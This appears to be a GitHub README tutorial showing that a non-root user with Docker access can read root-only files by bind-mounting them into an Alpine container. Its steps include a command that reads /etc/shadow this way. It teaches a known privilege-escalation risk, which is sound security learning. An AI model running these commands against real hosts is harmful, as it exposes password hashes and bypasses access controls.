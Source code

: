 # Privilege Escalation Using Docker Containers

## Prerequisites

- [Docker](https://docs.docker.com/engine/install/)

## Quick Start

1. Create a new file as the `root` user.

    ```bash
    sudo -i # login as root
    echo "supersecret" > /tmp/secret.txt
    chmod 600 /tmp/secret.txt
    ```

2. List files and read `secret.txt` content as root.

    ```bash
    # list files in current directory
    ls -lhr /tmp/secret.txt
    total 8.0K
    -rw------- 1 root   root     12 Jan 17 23:14 secret.txt
    # show content of file
    cat /tmp/secret.txt
    supersecret
    exit # logout from root
    ```

3. Using a regular user (non-root) account try to display the content of the `secret.txt` file.

    ```bash
    cat /tmp/secret.txt
    cat: secret.txt: Permission denied
    ```

4. Using a regular user (non-root) account run a docker container and mount the `secret.txt` file to read the content.

    ```bash
    docker run -v "/tmp/secret.txt:/tmp/secret.txt" -it alpine sh -c "cat /tmp/secret.txt"
    supersecret
    # you can do the same with the /etc/shadow file
    docker run -v "/etc/shadow:/tmp/shadow" -it alpine sh -c "cat /tmp/shadow"
    ```

5. Inspect who's running the docker container using the `ps` command.

    ```bash
    # using a regular user account run the following
    docker run -it alpine sh -c "sleep 3600"
    # in a different terminal run the ps command
    docker ps -a
    # replace $CONTAINER_ID for the actual container id
    ps -aux | grep $CONTAINER_ID
    # stop the alpine container
    docker stop $CONTAINER_ID
    ```

## Resources

- <https://kind.sigs.k8s.io/docs/user/configuration/>
